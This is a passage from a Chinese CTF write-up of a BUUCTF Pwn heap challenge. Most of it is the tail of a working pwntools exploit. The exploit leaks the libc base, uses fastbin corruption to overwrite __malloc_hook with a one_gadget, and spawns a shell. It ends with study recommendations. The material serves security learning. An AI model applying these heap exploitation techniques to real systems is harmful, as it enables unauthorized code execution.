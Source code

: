 ```
    print(hex(leak_bin1))

    libc_base = leak_bin1 - offset_unsortedbin - offset_main_arena

    print(f'leaked_libc_base : {hex(int(libc_base))}')

    allocate(p,0x60)
    free(p,4)

    # gdb.attach(p,gdbscript = gdb_script)
    # pause()

    payload = p64(libc_base+0x3c4aed)
    fill(p,2,payload)
    allocate(p,0x60)
    allocate(p,0x60)

    payload = p8(0)*3
    payload += p64(0)*2
    payload += p64(libc_base+0x4526a)
    fill(p,6,payload)

    allocate(p,255)

    p.interactive()


if __name__ == "__main__":
    main()
```

本地测试：

[![image]()](undefined)

成功拿下本地shell

远程测试：

[![image]()](undefined)

成功拿下flag！

# 六、本题学习资料推荐

本题涉及到的知识点很多

而且如果大家是顺着刷BUUCTF-Pwn题目的，这个应该是大家遇到的第一个堆类型的Pwn

从栈到堆是一个很大的跨越，需要学习堆的相关知识（比如数据结构）

没有基础知识的支撑是做不出这题的，所以推荐大家先去ctf-wiki上学习一下堆的基础知识

再结合本文章来pwn掉这道题！
